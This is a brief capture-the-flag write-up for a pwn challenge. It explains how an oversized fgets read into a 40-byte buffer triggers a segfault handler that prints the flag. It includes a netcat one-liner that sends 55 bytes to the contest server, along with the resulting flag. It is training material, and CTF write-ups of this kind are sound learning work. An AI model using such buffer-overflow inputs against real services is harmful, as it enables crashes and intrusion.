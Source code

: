 > # Pwn - Wizardry
> > Pwn - 50pts
>
> Gryffindor has gotten their flag stolen by another house. Rumour has it that it is hidden behind this spell. <br>
> Break the spell to get the flag!
>
> Here is the [spell](src/spell).
>
> Connect with netcat
> ```command
> $ nc motherload.td.org.uit.no 8005
> ```

## Writeup
The signal handler calls the _print\_flag_ function when a segmentation fault occurs, so we will get the flag by breaking the program with a segmentation fault.

The program reads in 100 bytes with _fgets_, but the buffer it reads in to is only 40 bytes in size, making us able to overflow the buffer to crash the program (with a segmentation fault).

You get the flag by writing **more** than 54 bytes to the program.
```command
$ python3 -c "print('a'*55)" | nc motherload.td.org.uit.no 8005
Give me some input:
>> aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
UiTHack23{W1ng4rd1um_l3vi0s4aa4}
```
